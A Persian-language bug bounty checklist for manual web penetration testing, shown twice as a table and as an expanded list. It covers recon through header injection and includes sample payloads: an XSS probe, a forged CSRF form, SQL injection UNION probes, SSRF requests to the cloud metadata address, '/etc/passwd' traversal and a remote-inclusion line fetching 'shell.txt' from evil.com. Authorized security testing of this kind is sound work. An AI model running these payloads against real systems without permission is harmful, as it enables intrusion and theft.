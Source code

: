 # 🛡️ چک‌لیست دستی تست نفوذ وب (Bug Bounty)

| بخش | تست‌ها و موارد دستی |
|------|----------------------|
| **1. Recon (جمع‌آوری اطلاعات)** | - Subdomain: `assetfinder`, `amass`, `subfinder` <br> - مسیر مخفی: `gau`, `waybackurls`, `ffuf` <br> - فایل‌های حساس: `/.git/`, `/config.php`, `/backup.zip` |
| **2. Authentication & Session** | - Login بدون پسورد <br> - Reset Password → تغییر Token به ایمیل قربانی <br> - بررسی Secure/HttpOnly کوکی <br> - Session Fixation: تغییر SessionID |
| **3. Authorization (IDOR / BOLA)** | - تغییر `id=123` → `id=124` <br> - تست API با تغییر یا حذف JWT Claim <br> - حذف فیلد حساس در درخواست |
| **4. Business Logic Flaws** | - خرید با قیمت منفی/صفر <br> - استفاده چندباره از کوپن <br> - Skip مرحله پرداخت (`/success`) <br> - تغییر نقش کاربر |
| **5. XSS (Cross-Site Scripting)** | - ورودی در فرم‌ها، GET/POST، هدرها <br> - Payload: `"><svg onload=alert(1)>` <br> - تست DOM-XSS: `document.write`, `innerHTML` |
| **6. CSRF (Cross-Site Request Forgery)** | - فرم جعلی با `POST /change-email` <br> - بررسی درخواست بدون CSRF Token |
| **7. File Upload** | - آپلود `shell.php.jpg` <br> - تغییر Content-Type به `image/jpeg` <br> - اجرای فایل در `/uploads/` |
| **8. SQL Injection** | - اضافه `'` یا `--` به پارامتر <br> - Boolean: `id=1 AND 1=1` vs `id=1 AND 1=2` <br> - Union: `id=1 UNION SELECT null,null,null` |
| **9. SSRF (Server Side Request Forgery)** | - تست پارامتر `url` یا `redirect` <br> - دسترسی به: `127.0.0.1`, `169.254.169.254` <br> - تست با Burp Collaborator / interactsh |
| **10. Open Redirect** | - `/login?redirect=https://evil.com` |
| **11. LFI/RFI (File Inclusion)** | - `page=../../../../etc/passwd` <br> - `page=http://evil.com/shell.txt` |
| **12. Race Condition** | - ارسال همزمان چند درخواست (Burp Intruder) <br> - استفاده دوباره از کوپن تخفیف |
| **13. Header Injection / Misconfig** | - تغییر `Host: evil.com` <br> - تست `X-Forwarded-For: 127.0.0.1` <br> - بررسی CSP, HSTS, X-Frame-Options |

---

## ✅ نکات پایانی
- تست‌ها رو مرحله‌ای انجام بده و مستند کن.  
- هر Payload موفق = ثبت کامل Request + Response.  
- حتماً قبل تست قوانین برنامه باگ‌بانتی رو بخون.




======================================================================
# 🛡️ چک‌لیست دستی تست نفوذ وب (Bug Bounty)

## 🔹 1. جمع‌آوری اطلاعات (Recon)
- پیدا کردن Subdomainها  
  - `assetfinder`, `amass`, `subfinder`, `crt.sh`
- پیدا کردن مسیرهای مخفی  
  - `gau`, `waybackurls`, `ffuf`, `gobuster`
- بررسی فایل‌های حساس  
  - `/.git/`, `/config.php`, `/backup.zip`

## 🔹 2. تست Authentication و Session
- **Login / Logout / Reset Password**
  - تست Login بدون پسورد
  - تست Reset Password → تغییر Token به ایمیل قربانی
- **Session Management**
  - کوکی Secure/HttpOnly بررسی بشه
  - تست Fixation: تغییر SessionID قبل و بعد از لاگین

## 🔹 3. تست Authorization (IDOR / BOLA)
- تغییر IDها:
  ```
  GET /user/123  → تغییر به 124
  ```
- تست روی API (REST/GraphQL):
  - حذف یا تغییر JWT Claim (`"role": "admin"`)
  - حذف فیلدهای حساس در درخواست و دیدن رفتار

## 🔹 4. Business Logic Flaws
- تست خرید با قیمت منفی یا صفر  
- تست چند بار استفاده از کوپن  
- تست Skip مرحله پرداخت با تغییر Flow (مثلا رفتن مستقیم به /success)  
- تست تغییر نقش کاربر با پارامترها  

## 🔹 5. XSS (Cross-Site Scripting)
- تست ورودی در: فرم‌ها، پارامتر GET/POST، هدرها
- نمونه Payload ساده:
  ```html
  "><svg onload=alert(1)>
  ```
- تست DOM-XSS در فایل‌های JS:
  - سرچ `document.write`, `innerHTML`, `location.hash`

## 🔹 6. CSRF (Cross-Site Request Forgery)
- ساخت فرم جعلی:
  ```html
  <form action="https://target.com/change-email" method="POST">
    <input type="hidden" name="email" value="attacker@test.com">
    <input type="submit">
  </form>
  ```
- بررسی: آیا درخواست بدون CSRF Token هم قبول میشه؟

## 🔹 7. File Upload
- تست آپلود فایل:  
  - `shell.php.jpg`  
  - تغییر Content-Type: `image/jpeg` → ولی فایل PHP باشه  
- تست اجرای فایل در `/uploads/`

## 🔹 8. SQL Injection (دستی)
- اضافه کردن `'` یا `--` به پارامترها
- تست Boolean-based:
  ```
  id=1 AND 1=1
  id=1 AND 1=2
  ```
- تست Union:
  ```
  id=1 UNION SELECT null,null,null
  ```

## 🔹 9. SSRF (Server Side Request Forgery)
- پارامترهای `url`, `path`, `redirect`
  ```
  url=http://127.0.0.1:8080/admin
  url=http://169.254.169.254/latest/meta-data/
  ```
- تست DNS Logging (Burp Collaborator / interactsh)

## 🔹 10. Open Redirect
- تغییر:
  ```
  /login?redirect=https://evil.com
  ```

## 🔹 11. LFI/RFI (File Inclusion)
- تست:
  ```
  page=../../../../etc/passwd
  page=http://evil.com/shell.txt
  ```

## 🔹 12. Race Condition
- ارسال همزمان چند درخواست با Burp Intruder / Turbo Intruder  
- مثال: دوبار استفاده از کوپن تخفیف در یک لحظه  

## 🔹 13. Header Injection / Misconfig
- تست هدرها:
  ```
  Host: evil.com
  X-Forwarded-For: 127.0.0.1
  ```
- بررسی هدرهای امنیتی (CSP, X-Frame-Options, HSTS)

---

## ✅ نکات پایانی
- همه تست‌ها رو **مرحله‌ای** انجام بده و یادداشت کن.  
- خروجی هر Payload موفق → گزارش دقیق (Request + Response).  
- همیشه قبل تست → ببین توی برنامه Bug Bounty اون نوع حمله مجازه یا نه.  
